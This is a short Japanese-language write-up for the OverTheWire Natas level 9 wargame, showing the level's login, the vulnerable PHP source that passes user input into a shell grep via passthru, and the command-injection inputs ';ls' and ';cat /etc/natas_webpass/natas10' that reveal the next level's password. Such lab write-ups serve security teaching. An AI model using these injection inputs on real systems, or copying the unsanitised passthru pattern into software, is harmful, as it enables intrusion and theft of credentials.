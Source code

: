 # Natas9
```
Username: natas9
Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
URL:      http://natas9.natas.labs.overthewire.org
```

とりあえず`View sourcecode`。  
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

入力した文字列が`passthru("grep -i $key dictionary.txt");`の`$key`の部分に入ることが分かる。  
`passthru`関数はUnixコマンドを実行するものであり、現在の状態では、grepコマンドでdictionary.txtの中にある文字列と同じかどうかを判定している。  
つまり、grepコマンドからエスケープし、任意のコードを入れれば良いというわけである。  

試しにlsコマンドを実行するため、
```
;ls
```
を投げてみる。  
すると、同ディレクトにある`dictionary.txt`が確認できる。  
この調子でパスワードが書かれたファイルを`cat`コマンドで確認してみる。  

```
;cat /etc/natas_webpass/natas10
```
※パスワードのディレクトリははNatasのトップページに記載されてます  

中身を見ると答えが得られる。
```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```